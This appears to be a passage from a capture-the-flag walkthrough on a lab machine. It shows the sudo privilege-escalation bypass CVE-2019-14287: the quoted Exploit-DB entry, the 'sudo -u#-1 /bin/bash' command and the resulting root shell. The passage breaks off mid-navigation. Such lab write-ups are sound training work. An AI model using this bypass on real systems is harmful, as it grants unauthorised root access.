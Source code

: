 It says that the user may run all the commands that a root user can , which is pretty weird to me. I search `(ALL !root) /bin/bash` exploit and got the first result as a exploit on exploit DB. 

##### *Answer: CVE-2019-14287*
This is what the exploit says: 
```exploit db 

'''Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id
```

With that I ran the command in the terminal: 
```console
james@agent-sudo:~$ sudo -u#-1 /bin/bash
```
Was able to bypass and escalate to root privileges: 
```console
root@agent-sudo:~# whoami
root
root@agent-sudo:~# 
```
#### *What is the root flag?*
Did some basic navigation:
```console
root@agent-sudo:~# pwd
/home/james
root@agent-sudo:~# cd ..
root@agent-sudo:/home# ls 
james
root@agent-sudo:/home# cd ..
root@agent-sudo:/# ls 
```